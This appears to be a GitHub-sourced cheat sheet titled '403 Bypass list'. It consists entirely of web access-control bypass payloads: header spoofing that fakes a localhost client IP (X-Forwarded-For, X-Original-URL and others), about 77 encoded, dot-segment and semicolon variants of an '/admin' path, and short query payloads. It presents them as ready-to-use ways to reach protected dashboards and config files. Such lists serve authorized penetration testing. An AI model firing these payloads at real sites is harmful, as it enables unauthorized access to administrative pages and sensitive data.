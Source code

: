 # 403 Bypass list by @jhaddix

Header manipulation techniques:
Client-IP: 127.0.0.1
X-Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 80
X-True-IP: 127.0.0.1
X-Original-URL: localhost

## Url Manipulation Methods

Below are the top 77 ways to bypass access control on incorrectely protected pages. These work best on config files and global dashboards. 

```
/admin
url.com/admin/?
url.com//admin//
url.com///admin///
url.com/./admin/./
url.com/admin?
url.com/admin??
url.com/admin??
url.com/admin/?/
url.com/admin/??
url.com/admin/??/
url.com/admin/..
url.com/admin/../
url.com/admin/./
url.com/admin/.
url.com/admin/.//
url.com/admin/*
url.com/admin//*
url.com/admin/%2f
url.com/admin/%2f/
url.com/admin/%20
url.com/admin/%20/
url.com/admin/%09
url.com/admin/%09/
url.com/admin/%0a
url.com/admin/%0a/
url.com/admin/%0d
url.com/admin/%0d/
url.com/admin/%25
url.com/admin/%25/
url.com/admin/%23
url.com/admin/%23/
url.com/admin/%26
url.com/admin/%3f
url.com/admin/%3f/
url.com/admin/%26/
url.com/admin/#
url.com/admin/#/
url.com/admin/#/./
url.com/./admin
url.com/./admin/
url.com/..;/admin
url.com/..;/admin/
url.com/.;/admin
url.com/.;/admin/
url.com/;/admin
url.com/;/admin/
url.com//;//admin
url.com//;//admin/
url.com/admin/./
url.com/%2e/admin
url.com/%2e/admin/
url.com/%20/admin/%20
url.com/%20/admin/%20/
url.com/admin/..;/
url.com/admin.json
url.com/admin/.json
url.com/admin..;/
url.com/admin;/
url.com/admin%00
url.com/admin.css
url.com/admin.html
url.com/admin?id=1
url.com/admin~
url.com/admin/~
url.com/admin/°/
url.com/admin/&
url.com/admin/-
url.com/admin\/\/
url.com/admin/..%3B/
url.com/admin/;%2f..%2f..%2f
url.com/ADMIN
url.com/ADMIN/
url.com/admin/..\;/
url.com/*/admin
url.com/*/admin/
url.com/ADM+IN
url.com/ADM+IN/
```

specific query payloads:
%09
%20
%23
%2e
%2f
.
;
..;
;%09
;%09..
;%09..;
;%2f..
*

